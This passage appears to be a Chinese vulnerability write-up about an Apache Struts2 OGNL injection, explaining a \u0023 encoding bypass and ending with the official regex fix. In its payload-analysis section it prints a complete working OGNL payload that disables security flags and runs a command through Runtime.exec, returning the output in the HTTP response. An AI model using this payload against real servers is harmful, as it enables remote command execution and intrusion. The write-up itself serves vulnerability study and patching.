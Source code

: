 当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制

![处理后](images/处理后.png)

&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数
&emsp;&emsp;&emsp;&emsp;('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)是打开了allowStaticMethodAccess函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))


## 漏洞修复

> 官方修复代码最终使用了更加严格的正则[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+来校验参数名的合法性

```java
public class ParametersInterceptor extends MethodFilterInterceptor {
    private static final Logger LOG = LoggerFactory.getLogger(ParametersInterceptor.class);
    boolean ordered = false;
    Set<Pattern> excludeParams = Collections.emptySet();
    Set<Pattern> acceptParams = Collections.emptySet();
    static boolean devMode = false;
    private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+";
    private Pattern acceptedPattern;
    private ValueStackFactory valueStackFactory;
    static final Comparator<String> rbCollator = new Comparator<String>() {
        public int compare(String s1, String s2) {
            int l1 = 0;
            int l2 = 0;
```